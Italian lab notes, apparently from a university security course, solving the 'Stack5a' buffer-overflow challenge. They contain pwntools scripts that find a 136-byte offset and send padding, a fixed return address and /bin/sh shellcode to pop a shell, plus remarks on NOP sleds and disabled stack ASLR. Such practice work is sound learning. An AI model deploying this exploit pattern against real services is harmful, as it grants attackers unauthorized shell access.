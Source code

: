 # Stack5a

## Local

ssh -p 4422 stack5@lettieri.iet.unipi.it

```py
from pwn import *


# il coso da eseguire
context.binary = ELF(path="./stack5a")

p = process()

p.send("kek") # p.sendline("kek") anche l'haccapo


# tiene la shell viva
p.interactive()
```

`cyclic` per capire l'offset della gets


```py
from pwn import *

# il coso da eseguire
context.binary = ELF(path="./stack5a")

p = remote(host="localhost", port=4405)


payload = cyclic(length=300)


p.send(payload) # p.sendline("kek") anche l'haccapo

# tiene la shell viva
p.interactive()
```

usando la gdb abbiamo visto 136


posso jumpare in un indirizzo a caso es "0x7fffffffdb08" e li ci scrivo la roba che voglio eseguire


```py
from pwn import ELF, context, p64, remote, shellcraft, asm

# il coso da eseguire
context.binary = ELF(path="./stack5a")

p = remote(host="localhost", port=4405)

shellcode=shellcraft.sh()

shellcode=asm(shellcode)

p.sendline(b"A" * 136 + p64(0x7fffffffdb18) + b"B"*8 + shellcode) 

# tiene la shell viva
p.interactive()
```

## Remote


nc lettieri.iet.unipi.it 4422


di solito lo stack non sta nello stesso posto, questa volta però è fermo `STACK-ASLR`

ssh e guardo dove sta lo stack

poi metto le `NOP` in modo che ad un certo punto arrivi in esecuzione


